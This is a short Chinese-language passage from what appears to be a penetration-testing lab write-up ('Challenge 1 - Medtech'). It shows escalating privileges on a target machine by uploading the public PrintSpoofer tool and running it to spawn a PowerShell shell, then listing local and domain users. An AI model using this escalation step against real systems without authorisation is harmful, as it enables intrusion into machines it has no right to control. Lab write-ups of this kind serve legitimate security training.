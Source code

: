 ![image-20250912205407193](./Challenge%201%20-%20Medtech/image-20250912205407193.png)

**利用：**

[Release PrintSpoofer · itm4n/PrintSpoofer](./https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)下载PrintSpoofer.exe



上传到靶机

```
运行：.\PrintSpoofer64.exe -i -c powershell.exe
```

成功提权

![image-20250912205603686](./Challenge%201%20-%20Medtech/image-20250912205603686.png)

查看本地用户和域用户

![image-20250912211150255](./Challenge%201%20-%20Medtech/image-20250912211150255.png)
